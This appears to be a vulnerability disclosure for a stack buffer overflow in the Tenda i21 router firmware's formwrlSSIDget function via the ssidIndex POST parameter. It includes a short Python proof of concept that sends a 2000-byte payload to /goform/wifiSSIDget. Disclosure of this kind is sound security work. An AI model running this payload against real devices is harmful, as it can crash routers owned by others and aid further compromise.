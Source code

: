 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formwrlSSIDget` function. The `index` variable receives the `ssidIndex` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(mib_prefix, "wl2g.ssid%s.", index);` can cause a buffer overflow. The user-provided  `ssidIndex` can exceed the capacity of the `mib_prefix` array, triggering this security vulnerability.

![image-20240419162724188](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162724188.png)

![image-20240419163010466](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163010466.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/wifiSSIDget"
payload = b"a"*2000

data = {"radio": "2.4G", "ssidIndex": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
